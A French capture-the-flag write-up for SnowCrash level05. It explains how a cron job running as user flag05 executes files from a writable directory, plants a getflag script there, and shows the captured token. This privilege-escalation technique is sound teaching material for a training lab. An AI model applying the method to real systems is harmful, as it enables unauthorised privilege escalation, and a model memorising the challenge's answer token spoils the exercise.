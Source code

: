 # Level05 - Tâche CRON
Pour résoudre le level05, on nous envoie un mail. Ce dernier contient ce qui ressemble à une tâche cron. Cette dernière semble exécuter avec l'utilisateur `flag05` toutes les 2 minutes le script `openarenaserver` dans `/usr/sbin`.

```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Si on regarde ce script, on se rends compte qu'il va exécuter puis supprimer tous les fichiers dans le dossier `/opt/openarenaserver/`.
Il nous suffit donc de créer un script qui va exécuter getflag et de le placer dans ce dossier.

```
#!/bin/bash
getflag > /tmp/flag
```
On oublie pas de `chmod 777 /opt/openarenaserver/getflag`, et on attends que le script s'exécute.

On peut ensuite récupérer notre flag dans le fichier `/tmp/flag`.
```
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

On a notre token: `viuaaale9huek52boumoomioc`

